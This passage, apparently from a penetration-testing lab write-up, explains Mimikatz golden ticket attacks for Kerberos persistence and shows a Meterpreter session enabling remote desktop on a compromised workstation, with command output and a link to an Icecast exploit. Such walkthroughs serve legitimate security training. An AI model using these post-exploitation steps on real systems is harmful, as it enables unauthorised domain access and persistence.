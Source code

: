 Golden ticket attacks are a function within Mimikatz which abuses a component to Kerberos (the authentication system in Windows domains), the ticket-granting ticket. In short, golden ticket attacks allow us to maintain persistence and authenticate as any user on the domain.

golden_ticket_create

```
Kiwi Commands
=============

    Command       Description
    -------       -----------
    golden_ticke  Create a golden kerberos ticket
    t_create
```

One last thing to note. As we have the password for the user 'Dark' we can now authenticate to the machine and access it via remote desktop (MSRDP). As this is a workstation, we'd likely kick whatever user is signed onto it off if we connect to it, however, it's always interesting to remote into machines and view them as their users do. If this hasn't already been enabled, we can enable it via the following Metasploit module: `run post/windows/manage/enable_rdp`

```
meterpreter > run post/windows/manage/enable_rdp

[*] Enabling Remote Desktop
[*]     RDP is already enabled
[*] Setting Terminal Services service startup mode
[*]     The Terminal Services service is not set to auto, changing it to auto ...
[*]     Opening port in local firewall if necessary
[*] For cleanup execute Meterpreter resource file: /root/.msf4/loot/20230729082734_default_10.10.184.85_host.windows.cle_785848.txt

```

## Extra Credit
Explore manual exploitation via exploit code found on exploit-db. 

Exploit link: https://www.exploit-db.com/exploits/568

As you advance in your pentesting skills, you will be faced eventually with exploitation without the usage of Metasploit. Provided above is the link to one of the exploits found on Exploit DB for hijacking Icecast for remote code execution. While not required by the room, it's recommended to attempt exploitation via the provided code or via another similar exploit to further hone your skills.

